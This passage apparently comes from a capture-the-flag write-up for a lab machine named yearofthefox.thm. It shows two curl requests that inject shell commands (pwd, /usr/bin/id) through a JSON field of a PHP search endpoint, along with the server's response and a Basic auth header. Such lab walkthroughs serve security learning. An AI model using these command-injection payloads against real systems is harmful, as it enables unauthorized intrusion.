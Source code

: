 ![image.png](image%203.png)

`curl -i -s -k -X $'POST' -H $'Host: yearofthefox.thm' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0' -H $'Accept: */*' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate, br' -H $'Content-Type: text/plain;charset=UTF-8' -H $'Content-Length: 22' -H $'Origin: [http://yearofthefox.thm](http://yearofthefox.thm/)' -H $'Authorization: Basic cmFzY2FsOmNoaXZh' -H $'Connection: close' -H $'Referer: [http://yearofthefox.thm/](http://yearofthefox.thm/)' --data-binary $'{\"target\":\"\\\";pwd \\\"\"}' $'[http://yearofthefox.thm/assets/php/search.php](http://yearofthefox.thm/assets/php/search.php)'`

```bash
HTTP/1.1 200 OK
Date: Tue, 10 Sep 2024 11:32:07 GMT
Server: Apache/2.4.29 (Ubuntu)
Content-Length: 33
Connection: close
Content-Type: text/html; charset=UTF-8

["\/var\/www\/html\/assets\/php"] 
```

`curl -i -s -k -X $'POST' -H $'Host: yearofthefox.thm' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0' -H $'Accept: */*' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate, br' -H $'Content-Type: text/plain;charset=UTF-8' -H $'Content-Length: 30' -H $'Origin: [http://yearofthefox.thm](http://yearofthefox.thm/)' -H $'Authorization: Basic cmFzY2FsOmNoaXZh' -H $'Connection: close' -H $'Referer: [http://yearofthefox.thm/](http://yearofthefox.thm/)' --data-binary $'{\"target\":\"\\\" ;/usr/bin/id\\n\"}' $'[http://yearofthefox.thm/assets/php/search.php](http://yearofthefox.thm/assets/php/search.php)'`
